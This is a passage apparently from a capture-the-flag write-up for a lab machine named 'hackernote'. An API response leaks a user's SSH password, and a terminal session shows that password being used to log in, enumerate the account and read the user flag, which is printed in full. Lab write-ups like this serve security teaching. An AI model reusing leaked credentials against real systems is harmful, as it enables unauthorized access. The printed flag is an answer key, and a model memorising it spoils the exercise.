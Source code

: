 ```

Content-Type: application/json

Date: Thu, 16 Mar 2023 18:14:37 GMT

Content-Length: 125

Connection: close



[{"noteID":1,"userID":1,"noteTitle":"My SSH details","noteContent":"So that I don't forget, my SSH password is dak4ddb37b"}]

┌──(witty㉿kali)-[~/Downloads]
└─$ ssh james@10.10.247.168       
The authenticity of host '10.10.247.168 (10.10.247.168)' can't be established.
ED25519 key fingerprint is SHA256:0Fb40mE1AmcHWbg2H7/8Afq+0Uk5vLB/UrPPvJ9AxLM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.247.168' (ED25519) to the list of known hosts.
james@10.10.247.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 16 18:15:43 UTC 2023

  System load:  0.1               Processes:           88
  Usage of /:   49.2% of 9.78GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 10.10.247.168
  Swap usage:   0%


59 packages can be updated.
0 updates are security updates.


Last login: Mon Feb 10 11:58:27 2020 from 10.0.2.2
james@hackernote:~$ id;pwd
uid=1001(james) gid=1001(james) groups=1001(james)
/home/james
james@hackernote:~$ ls
user.txt
james@hackernote:~$ cat user.txt
thm{56911bd7ba1371a3221478aa5c094d68}


```
